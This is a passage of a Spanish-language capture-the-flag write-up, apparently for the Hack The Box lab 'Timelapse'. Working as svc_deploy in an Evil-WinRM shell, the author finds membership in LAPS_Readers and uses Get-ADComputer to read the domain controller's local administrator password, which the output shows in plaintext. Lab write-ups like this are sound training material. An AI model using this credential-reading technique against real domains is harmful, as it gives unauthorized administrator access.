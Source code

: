 Ya nos encontramos dentro de la máquina como el usuario **svc_deploy**. Vamos a enumerar un poco el sistema con el nuevo usuario:

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```

El usuario se encuentra en el grupo **LAPS_Readers**. Con LAPS, el DC administra las contraseñas de administrador local para las computadoras en el dominio. Es común crear un grupo de usuarios y darles permisos para leer estas contraseñas, permitiendo que los administradores de confianza accedan a todas las contraseñas de los administradores locales. 

Para leer la contraseña de LAPS, se necesita el comando `Get-ADComputer` e indicar la propiedad `ms-mcs-admpwd`:

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : $@267}9a!Td}2/58tm.3hAFJ
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :



*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```

